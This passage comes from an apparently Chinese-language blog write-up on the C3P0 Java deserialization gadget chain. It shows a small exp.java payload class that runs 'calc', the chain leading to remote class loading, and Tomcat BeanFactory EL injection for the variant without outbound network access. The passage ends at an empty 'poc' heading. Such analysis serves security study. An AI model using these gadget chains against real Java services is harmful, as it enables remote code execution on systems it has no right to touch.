 exp.java

```
import java.io.IOException;

public class exp {
    public exp() throws IOException {
        Runtime.getRuntime().exec(&#34;calc&#34;);
    }
}
```

#### 总结

调用链

```
PoolBackedDataSourceBase#readObject 
	-&gt;ReferenceSerialized#getObject 
		-&gt;ReferenceableUtils#referenceToObject 
			-&gt;ObjectFactory#getObjectInstance
```

就是加载个远程恶意类

### 不出网利用

环境搭建

```
&lt;dependency&gt;
    &lt;groupId&gt;org.apache.tomcat.embed&lt;/groupId&gt;
    &lt;artifactId&gt;tomcat-embed-core&lt;/artifactId&gt;
    &lt;version&gt;8.5.27&lt;/version&gt;
&lt;/dependency&gt;
&lt;dependency&gt;
    &lt;groupId&gt;org.apache.tomcat.embed&lt;/groupId&gt;
    &lt;artifactId&gt;tomcat-embed-el&lt;/artifactId&gt;
    &lt;version&gt;8.5.27&lt;/version&gt;
&lt;/dependency&gt;
```

#### 调用链

和 url 链一样，不过最后不是通过 URLClassLoader 加载远程类了，而是直接加载本地字节码

回到`com.mchange.v2.naming` 下的 `ReferenceableUtils.referenceToObject`中

![image-20250319220656007](https://bu.dusays.com/2025/03/19/67dad77585bbb.png)

可以看到这里如果`getFactoryClassLocation`方法返回为null的时候就直接加载本地字节码

加载本地字节码的类要求其实现了 javax.naming.spi.ObjectFactory 接口，并能调用`getObjectInstance`方法，可以通过加载 `Tomcat8` 中的 `org.apache.naming.factory.BeanFactory` 进行 EL 表达式注入

#### poc
